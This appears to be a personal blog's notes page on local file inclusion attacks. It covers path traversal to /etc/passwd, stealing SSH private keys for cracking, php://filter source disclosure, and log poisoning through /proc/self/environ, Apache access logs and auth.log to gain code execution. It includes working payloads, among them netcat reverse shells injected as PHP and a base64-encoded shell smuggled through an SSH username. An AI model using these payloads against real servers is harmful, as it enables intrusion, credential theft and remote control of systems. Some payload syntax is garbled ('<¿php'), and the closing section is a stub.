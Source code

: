 ```yaml
---
layout: post
title: 'Notes | LFI'
date: 2022-04-23
permalink: /notes/web/lfi/
---
```


# [](#header-4)Local file inclusion
**LFI** is the process to include files locate in the server through the exploiting of vulnerable inclusion.
For example:
{% highlight plain %}
http://localhost/example.php?file=../../../../../../../etc/passwd
{% endhighlight %}

With the terminal we can check easily:
{% highlight plain %}
> curl -s "http://localhost/example.php?file=/etc/passwd"
{% endhighlight %}
##### **-s**: no verbose

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with *grep -i  "host local" -B 1* we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem_address), if we add a **0x** in Python before we can get the port (its common to not get ports like 80 here).

## Directory Path Traversal
If the web is sanitaze with only one path allowed, we can move using **../**:
{% highlight plain %}
> curl -s "http://localhost/example.php?file=../../../../../../../etc/passwd"
{% endhighlight %}

The web can set and extension to the end of the path, we can escape than with: **%00** at the end of the search.

## Wrappers
Help to escape LFI sanitazer. For example:
- **?file=file:///etc/passwd ->** get the file.
- **?file=php:///filter/convert.base64-encode/resource=file.php ->** give all the content file (including comments) in base64 (useful to get the whole source code).

## Log Poisoning
Change logs in order to recreate a RCE.

#### Reverse Shell
We can execute code accesing **/proc/self/environ**. We can modify the header in burpsuite to add:
{% highlight plain %}
<?passthru('nc -e /bin/bash <ip>:<port>');?>
{% endhighlight %}
To execute the reverse shell.

#### Apache2
In **/var/log/apache2/access.log** we can manipulate the user agent that the log is currently saving in the logs with curl. For example:
{% highlight plain %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
{% endhighlight %}
Now we can execute code in the system.

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
{% highlight plain %}
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
{% endhighlight %}
- Then we send this "user" to the log:
{% highlight plain %}
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
{% endhighlight %}
Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
{% highlight plain %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
{% endhighlight %}


## Remote File Inclusion (RFI)
Load files into the server.

